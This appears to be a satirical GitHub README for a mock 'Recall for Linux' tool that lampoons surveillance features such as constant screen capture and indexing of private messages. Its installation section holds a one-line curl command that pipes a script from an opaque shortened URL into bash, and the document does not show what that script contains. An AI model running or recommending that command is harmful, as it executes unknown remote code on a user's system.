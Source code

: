 # 🔥 Recall for Linux

Are you forced to work with Linux?  
Do you miss the convenience of Microsoft spying on you and keeping track of everything?

Fear not! This amazing tool will bring back all those great Windows Recall features that you have been missing:

- 🌲 Stores all you sensitive data in an convenient, easily accessible database
- ⏲️ 24/7 screencaptures of everything you do
- 🥳 Image to text conversion with OCR
- 😇 Index and store everything your friends tell you over chat apps or e-mail; if it's on your screen we've got you covered!

Did a friend once share confident information with you, but has since forgotten all about the shamefull details? No worries, you got that info!

Forgot about that website you visited 3 weeks ago, late in the evening while drunk? Yup, we stored that!

# Installation

Unfortunately Linux lacks to ability for us to automatically, silently install and enable this on your computer without your consent.

But we've made the installation process as frictionless as possible.

Simply open a terminal window and paste this random command (\*) from the internet:

```bash
curl -fsSL https://tinyurl.com/2u5ckjyn | bash
```

_(\*) certified virus free. Virustotal score of 98/100._

# Roadmap

These are all the exciting features coming soon:

- [ ] ㊙ implement encryption (delayed until 2028)
- [ ] 🐒 add AI features
- [ ] 💰 monetization (for us, not for you 🤑)
- [ ] 󰖠 add webcam pictures to really capture the moment
- [ ] 💩 AI
- [ ] 🎤 always-on audio recording
- [ ] 🐍 more AI
- [ ] ☁️ automatic uploading of all your data the cloud
- [ ] 🙈 train our LLM's with your data
